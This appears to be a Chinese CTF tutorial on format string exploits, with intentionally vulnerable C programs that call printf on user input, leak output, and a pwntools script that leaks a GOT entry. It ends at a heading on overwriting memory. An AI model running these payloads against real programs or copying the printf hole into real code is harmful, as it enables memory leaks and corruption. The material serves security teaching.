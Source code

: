 # Format String Exploit

## 格式化字符串

>%d - 十进制 - 输出十进制整数   
%s - 字符串 - 从内存中读取字符串   
%x - 十六进制 - 输出十六进制数   
%c - 字符 - 输出字符   
%p - 指针 - 指针地址   
%n - 到目前为止所写的字符数   

主要有两个漏洞利用效果：   

## 1.泄露内存 
利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

### 题目
`gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c` 
```c
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

### (1)泄露栈内存
- 获取某个变量的值
- 获取某个变量对应地址的内存

#### Exploit:
- 利用 `%x` 来获取对应栈的内存，但建议使用 `%p`，可以不用考虑位数的区别。
- 利用 `%s` 来获取变量所对应地址的内容，只不过有零截断。
- 利用 `%n$x` 来获取指定参数的值，以获取到对应的第 n+1 个参数的数值。   


### (2)泄露任意地址内存
- 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
- 盲打，dump 整个程序，获取有用信息。

#### 泄露AAAA(某函数地址）
格式：`<address>%<order>$s`   
改进格式：`<address>@@%<order>$s@@`  

由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数。 
```
$ ./leakmemory 
AAAA%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p
AAAA0xff95b7200xc20xf769479b0x414141410x702570250x70257025
```
可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。   
```
$ ./leakmemory 
%4$s
00000001.22222222.ffffffff.%4$s
Segmentation fault (core dumped)
```

EXP:
```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

## 2.覆盖内存

>`%n`,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

### 题目
`gcc -m32 -fno-stack-protector -no-pie -o overwrite overwrite.c`    
修改变量a,b,c
```c
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```
### PWN
Setp:   
- 确定覆盖地址   
确定需要泄露变量的地址
- 确定相对偏移   
确定一下存储格式化字符串的地址是 printf 将要输出的第几个参数 
- 进行覆盖

#### EXP1-覆盖变量c
